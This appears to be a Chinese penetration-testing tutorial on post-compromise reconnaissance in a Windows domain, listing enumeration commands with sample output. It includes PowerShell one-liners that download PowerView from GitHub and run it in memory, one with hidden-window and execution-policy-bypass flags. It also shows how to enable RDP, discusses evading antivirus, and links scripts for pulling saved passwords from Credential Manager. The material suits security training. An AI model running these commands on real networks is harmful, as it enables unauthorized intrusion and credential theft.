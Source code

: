 # 内网信息收集

进入到目标公司内网的某台服务器之后，面临新的问题：

* 下一步应该做什么？
* 需要收集哪些信息？
* 如何收集相关信息？
* 如何获取域管理员权限？

## Windows枚举

```powershell
whoami /all && ipconfig /all && netstat -ano && net accounts && net localgroup administraors && net share
```

命令部分结果截图

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210824152600.png)

还可以再通过Windows PowerShell工具和脚本收集更多信息。

### 检查Windows操作系统补丁

网络中绝大多数客户端主机通常都安装相类似的系统补丁。因此突破一台主机，就可以了解其他机器系统补丁的情况。

```
C:\Users\huan>powershell -command Get-HotFix

Source        Description      HotFixID      InstalledBy          InstalledOn
------        -----------      --------      -----------          -----------
DESKTOP-7U... Update           KB4515871                          2019/12/5 0:00:00
DESKTOP-7U... Update           KB4601556
DESKTOP-7U... Update           KB4513661                          2019/12/5 0:00:00
DESKTOP-7U... Security Update  KB4516115                          2019/12/5 0:00:00
DESKTOP-7U... Update           KB4517245                          2019/12/5 0:00:00
DESKTOP-7U... Security Update  KB4524569                          2019/12/5 0:00:00
DESKTOP-7U... Update           KB4530684                          2019/12/5 0:00:00
```

显示所有域用户和相关信息

```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1');Get-NetUser > .\test.txt"
```

>  -Domain 指定域名

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/d125ae1bf78447bcef6721dbff02e44.png)

这条命令执行发现失败，Windows defer弹出木马病毒警告，那如果在内网渗透中，对方有做监控告警，岂不是凉凉了？但如果对方关闭了防毒软件，那么也许就能操作成功。再多说一句，目前使用Windows Server来做服务器的公司是越来越少了，而Linux更是没有防毒软件，**且黑且珍惜**。

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1');GetUserProperties -Properties name, memberof,   description, info > .\test.txt"
```

```
C:\Users\huan>wmic useraccount get /ALL /format:csv

Node,AccountType,Caption,Description,Disabled,Domain,FullName,InstallDate,LocalAccount,Lockout,Name,PasswordChangeable,PasswordExpires,PasswordRequired,SID,SIDType,Status
DESKTOP-7UETL55,512,DESKTOP-7UETL55\Administrator,管理计算机(域)的内置帐户,TRUE,DESKTOP-7UETL55,,,TRUE,FALSE,Administrator,TRUE,FALSE,TRUE,S-1-5-21-280794800-3581089400-2904463151-500,1,Degraded
DESKTOP-7UETL55,512,DESKTOP-7UETL55\DefaultAccount,系统管理的用户帐户。,TRUE,DESKTOP-7UETL55,,,TRUE,FALSE,DefaultAccount,TRUE,FALSE,FALSE,S-1-5-21-280794800-3581089400-2904463151-503,1,Degraded
DESKTOP-7UETL55,512,DESKTOP-7UETL55\Guest,供来宾访问计算机或访问域的内置帐户,TRUE,DESKTOP-7UETL55,,,TRUE,FALSE,Guest,FALSE,FALSE,FALSE,S-1-5-21-280794800-3581089400-2904463151-501,1,Degraded
DESKTOP-7UETL55,512,DESKTOP-7UETL55\huan,,FALSE,DESKTOP-7UETL55,,,TRUE,FALSE,huan,TRUE,FALSE,FALSE,S-1-5-21-280794800-3581089400-2904463151-1001,1,OK
DESKTOP-7UETL55,512,DESKTOP-7UETL55\WDAGUtilityAccount,系统为 Windows Defender 应用程序防护方案管理和使用的用户帐户。,TRUE,DESKTOP-7UETL55,,,TRUE,FALSE,WDAGUtilityAccount,TRUE,TRUE,TRUE,S-1-5-21-280794800-3581089400-2904463151-504,1,Degraded
```

启用远程桌面，**需要管理员权限运行PowerShell程序**。

```
PS C:\Windows\system32> Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -Name 'PortNumber' -Value 3389
```

查看所有服务

```
powershell -command Get-Service

Status   Name               DisplayName
------   ----               -----------
Stopped  AarSvc_3898c       Agent Activation Runtime_3898c
Stopped  AJRouter           AllJoyn Router Service
Stopped  ALG                Application Layer Gateway Service
Stopped  AppIDSvc           Application Identity
Running  Appinfo            Application Information
Stopped  AppMgmt            Application Management
Stopped  AppReadiness       App Readiness
....................................
```

### 搜索域控

```
nltest /DCLIST:[Domain]
```

### 查看域管理员

```
net group "Domain Admins" /domain
```

### 查看本地管理员

```
net localgroup administrators /DOMAIN
```

### 查找共享目录

## 从Windows凭据管理器和浏览器获取密码

Windows凭据管理器是Windows的默认功能，用于保存系统、网站和服务器的用户名、密码和证书。当你使用Microsoft IE/EDGE对网站进行身份验证后，通常会弹出一个弹出窗口，询问“是否要保存密码？”凭证存储就是存储这些信息的地方，在凭据管理器中，有两种类型的凭据：Web和Windows，登录后可以检索此信息的用户可以查看这些信息。这对我们来说是很好的，就像任何钓鱼网站或代码执行一样，我们通常都可以用别的方法获得那个用户的权限。最好的一点是，我们甚至不需要成为本地管理员来提取这些数据。

## 如何提取

* 收集网络凭据
    * https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1

* 收集 Windows 凭证（只收集通用的而不是目标域特有的）：
    * https://github.com/peewpw/Invoke-WCMDump/blob/master/Invoke-WCMDump.ps1



























